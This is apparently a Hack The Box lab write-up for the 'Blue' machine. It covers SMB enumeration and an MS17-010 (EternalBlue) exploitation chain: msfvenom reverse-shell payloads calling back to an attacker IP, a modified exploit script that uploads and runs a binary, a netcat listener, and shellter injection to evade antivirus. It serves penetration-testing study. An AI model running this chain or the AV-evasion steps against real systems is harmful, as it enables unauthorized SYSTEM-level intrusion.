# [Blue](https://app.hackthebox.eu/machines/51)

Start with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.40 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.40
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.40
```

The TCP quick `nmap` scan returns the following:



Looks like only SMB/NetBIOS are open. Check for open SMB shares:

```bash
ip=10.10.10.40
for share in $(smbclient -N -L //$ip | grep Disk | sed 's/^[ \t]*//g' | cut -d ' ' -f 1); 
do 
  echo "-- \\\\$ip\\$share --";
  smbclient -N \\\\$ip\\$share -c 'ls;quit'; 
done
```

This returns some interesting results:



The `Share` directory is empty and trying to create a file gives an `NT_STATUS_ACCESS_DENIED`. The `Users` share also gives this same error when trying to write to a file. The files listed in the share seem to be the contents of the `C:\Users` directory on the host. However, some directories are missing, like `Administrator`. Moving on...

Next look at the NetBIOS connection:

```bash
rpcclient -U '' -N 10.10.10.40 # empty username & no password
querydispinfo          # list users
enumdomusers           # list users
enumdomgroups          # list groups
enumdomains            # list domains
querydominfo           # domain info
lsaquery               # get SIDs
lsaenumsid             # get SIDs
lookupsids <sid>       # lookup SID by SID
lookupnames <username> # lookup SID by username
```

However, no interesting info about usernames or SIDs can be gathered:



The full TCP `nmap` results should be done by now and have an interesting entry:



It seems this host uses SMBv1, which has a known vulnerability MS17-010 (CVE-2017-0143):

- https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0143

```bash
searchsploit ms17-010
```



Exploits 43970 & 41891 are boring because they use Metasploit :wink: Exploits 42030 & 41987 do not support the OS version from `nmap` for SMB OS discovery:

```
Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
```

 This leaves exploits 42031 & 42315:

- https://www.exploit-db.com/exploits/42315
- https://www.exploit-db.com/exploits/42031

Exploit 42031 does not look promising because it has the following text towards the top of the file:

```
The exploit might FAIL and CRASH a target system (depended on what is overwritten)
```

Exploit 42315 looks better with the following note:

```
The exploit should never crash a target (chance should be nearly 0%)
```

Looking at the code for 42315, it says it was tested on Windows 7 SP1 x64 and Windows 7 SP1 x86, which should cover this target machine! There are a few notes from the code though:

- `mysmb.py` is required:
  - https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
- A username & password are required for named pipe enumeration in the `IPC$` share.

However after running the exploit just to test with `USERNAME` and `PASSWORD` empty, the following error is given:

```bash
# download required library
curl https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py -o mysmb.py
# copy exploit
searchsploit -m 42315
# run exploit
python 42315.py 10.10.10.40
```



It looks like haveing an empty username & password does not give easy access to a named pipe... After some more Googling, this repository becomes helpful:

- https://github.com/worawit/MS17-010

The main reason this is needed is because the MS17-010 provides kernel level access. This means normal shellcode from msfvenom will not work. Instead custom kernel shellcode is needed (https://github.com/worawit/MS17-010/tree/master/shellcode).

- https://root4loot.com/post/eternalblue_manual_exploit/

```bash
# clone repo
git clone https://github.com/worawit/MS17-010.git
# assemble x64 kernel shellcode
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./x64_kernel.bin
# create x64 user shellcode
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 \
    LPORT=6969 LHOST=10.10.14.23 EXITFUNC=thread -f raw -o x64_user.bin
# merge payloads
cat x64_kernel.bin x64_user.bin > x64.bin
# assemble x86 kernel shellcode
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./x86_kernel.bin
# create x86 user shellcode
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 \
    LPORT=6969 LHOST=10.10.14.23 EXITFUNC=thread -f raw -o x86_user.bin
# merge payloads
cat x86_kernel.bin x86_user.bin > x86.bin
# merge x86/x64 payloads since target arch is unknown
python MS17-010/shellcode/eternalblue_sc_merge.py x86.bin x64.bin payload.bin
# start listener 
nc -nvlp 6969
# run exploit for windows 7
python MS17-010/eternalblue_exploit7.py 10.10.10.40 payload.bin
```

However, running this does not work... UGH :disappointed: 

Looking back at the SMB shares, something interesting to note is that they allow for any random username and password combination:

```bash
# format is username%password
smbclient -L //10.10.10.40 -U 'dskmdsklmlkdsm%kldkldsnlkdsn'
```



Going back to the original exploit 42315 and setting the `USERNAME` and `PASSWORD` to something random produces the following:

```bash
 python2.7 42315.py 10.10.10.40
```



Okay, so the exploit says it worked and created a file called `c:\pwned.txt`, but it is better to verify. The `Users` share is likely from `C:\users`. So modifying the function `smb_pwn` in the exploit code to create the file at `c:\users\bubba.txt` becomes the following:

```python
def smb_pwn(conn, arch):
  smbConn = conn.get_smbconnection()
  print('creating file c:\\users\\pwned.txt on the target')
  tid2 = smbConn.connectTree('C$')
  fid2 = smbConn.createFile(tid2, '/users/bubba.txt')
  smbConn.closeFile(tid2, fid2)
  smbConn.disconnectTree(tid2)
```

After re-running the exploit:



Nice! Next, modify the function `smb_pwn` to use the `service_exec` function mentioned in the comments:

> smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
> service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
> Note: there are many methods to get shell over SMB admin session
> a simple method to get shell (but easily to be detected by AV) is
> executing binary generated by "msfvenom -f exe-service ..."

```python
def smb_pwn(conn, arch):
  smbConn = conn.get_smbconnection()
  print('[!!!] uploading payload ...')
  smb_send_file(smbConn, 'bubba.exe', 'C', '/bubba.exe')
  print('[!!!] starting remote process ...')
  service_exec(conn, 'cmd /c c:\\bubba.exe')
```

This will copy `bubba.exe` to the target machine at `c:\bubba.exe` and execute it. To generate the `bubba.exe` payload, it is better to try and avoid AV detection using [shellter](https://www.shellterproject.com/):

```bash
# generate raw payload to add to shellter
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 \
    LPORT=6969 LHOST=10.10.14.23 EXITFUNC=thread -f raw -o shell.bin
# install wine x86
sudo dpkg --add-architecture i386
sudo apt update 
sudo apt upgrade
sudo apt install wine32
# install shellter
sudo apt install shellter
# locate normal windows binary to inject payload into
find / -iname whoami.exe 2>/dev/null
cp /usr/share/windows-resources/binaries/whoami.exe .
# locate and run shellter binary
find / -iname shellter.exe 2>/dev/null
cp /usr/share/windows-resources/shellter/shellter.exe .
# run shellter to encode payload
wine shellter.exe
```

Here are the arguments for the `shellter.exe` CLI:

- **NOTE:** The paths are from a Windows machine, but they can be changed to Linux ones :smile:





Now, start the listener and trigger the exploit:

```bash
# rename whoami.exe from shellter to bubba.exe for exploit
mv whoami.exe bubba.exe
# start listener 
nc -nvlp 6969
# run exploit
python 42315.py 10.10.10.40
```

And this returns a shell as SYSTEM:

